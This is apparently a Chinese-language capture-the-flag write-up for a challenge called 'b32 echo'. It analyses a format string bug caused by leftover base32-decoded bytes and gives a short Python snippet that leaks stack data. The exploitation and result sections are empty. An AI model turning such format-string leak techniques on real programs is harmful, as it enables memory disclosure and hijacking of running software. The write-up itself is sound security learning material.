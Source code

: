 ## 03 - b32 echo


### 1 漏洞分析和触发
一个重要的漏洞是，程序不检查解码结果中最后一个字符是否为`%`，而且如果新的解码结果比旧的短，且新的解码结果的字符个数是 5 的整倍数，那么旧的解码结果将保留：
![image.png](./assets/1654204624817-564d9809-e8f3-49c0-b835-4e5b46fe0c01.png)
这样，我们就可以通过每次构造比上一次少 5 个字符的字符串，同时让每次的最后一个字符是`%`，并与后一次的保留的字符构成格式控制字符串，就可以利用 FSB。下面是利用 FSB 读取栈上数据的一例：
```python
def interact_b32(plain):
	conn.recvuntil(b'input: \n')
	coded = b32encode(plain)
	conn.sendline(size(coded)[:-1].encode('utf-8'))
	conn.recvuntil(b'Show it: \n')
	conn.sendline(coded)
	result = conn.recvline()
	print(result)

for i in range(75, 0, -5):
	interact_b32(b'.' * i + b'x...%')
```
![image.png](./assets/1654206166252-dd5f529f-4e4d-4539-8d74-d145b61a9b04.png)

### 2 利用思路分析
FSB 漏洞发生在`echo_actual()`中。用 gdb 查看运行时栈环境：
![image.png](./assets/1655808367771-c57ad004-c352-40b7-a6dd-9932153a35fb.png)
可以看到，运行`printf`时，栈顶前 2 个 64 位是临时使用的，第 3 个 64 位是`saved rbp`，第 4 个 64 位是`ret addr`。<br />查看程序的安全限制：
![image.png](./assets/1655808797131-b0fbf481-770a-4657-bf88-5525112fbafc.png)


### 3 利用过程

### 4 结果
